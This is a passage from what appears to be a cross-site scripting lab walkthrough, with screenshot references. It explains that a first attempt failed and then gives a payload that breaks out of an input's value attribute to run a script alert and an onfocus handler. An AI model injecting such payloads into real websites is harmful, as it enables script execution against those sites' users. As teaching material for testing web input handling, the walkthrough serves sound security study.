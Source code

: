 <img src="images/image24.png" alt="third" width="500">

Its not working because it is reading ">  as string

**Step2:**

Now we try this payload

As we see source code is

<img src="images/image25.png" alt="third" width="500">

To make it complete look

	`<input type="text" value=""><script>alert(document.domain)</script>" autofocus onfocus=alert('XSS') x="">`

So our payload look like

`"><script>alert(document.domain)</script>" autofocus onfocus=alert('XSS') x="">`

<img src="images/image26.png" alt="third" width="500">
